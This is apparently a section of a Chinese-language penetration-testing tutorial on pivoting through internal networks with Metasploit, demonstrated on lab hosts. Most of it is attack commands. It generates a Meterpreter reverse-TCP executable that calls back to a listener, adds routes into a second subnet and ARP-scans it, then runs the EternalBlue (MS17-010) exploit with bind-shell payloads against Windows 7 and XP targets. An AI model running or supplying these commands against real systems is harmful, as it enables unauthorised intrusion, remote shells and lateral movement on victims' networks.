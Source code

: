 **三、MSF 穿越多级网络**
================

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS03ICJyf8UvUDKJpAGLib0APYOGJ3ZTAZgYHl5Mj1yMFRUjFMBnJg6Atw/640?wx_fmt=png)

  
①生成 payload

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.5 lport=1122 -f exe >test.exe
```

②建立监听，返回会话

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.5
set lport 1122
run
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS01cYuIFAjdLVj9M8zibw0m6vz55fTiaWxlO1kfwx4D310EoAAia2xGBTWg/640?wx_fmt=png)  

③发现存在 75 网段，对该网段进行纵向渗透。添加 192.168.75.x 段网段静态路由

```
run autoroute -s 192.168.75.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0hFdQlWgCoysNldQY2Fibf4YTLMDJuts0G1Y4iatplQLMnQgNiciajRfCoA/640?wx_fmt=png)  

④对 192.168.75.x 网段进行主机存活扫描，此时在 MSF 各个模块已经可以访问 75 网段

```
run post/windows/gather/arp_scanner RHOSTS=192.168.75.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0bMz1UJ7jmtBpjDT5k1dZdtHLBE2YnXibpCtc2X5gqh15KrY180XhYiaA/640?wx_fmt=jpeg)  

⑤挂起当前会话，对目标 win7(192.168.75.131) 进行攻击

```
use exploit/windows/smb/ms17_010_eternalblue
set rhost 192.168.75.131
#因为直连没有返回的流量所以不能用默认的reverse payload。
#直连是在目标上面开一个端口然后本地去连接
set payload windows/x64/meterpreter/bind_tcp 
run
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS03ugmEKbPSpzEMOOzGzVXMlicUgzXIjJibEH67hiaCPEHdbPSibpmnkuoFA/640?wx_fmt=png)

漏洞利用失败。为了加强效果节目效果专门搞了个 XP

```
use exploit/windows/smb/ms17_010_eternalblue
set rhost 192.168.75.132
set payload windows/meterpreter/bind_tcp 
run
```
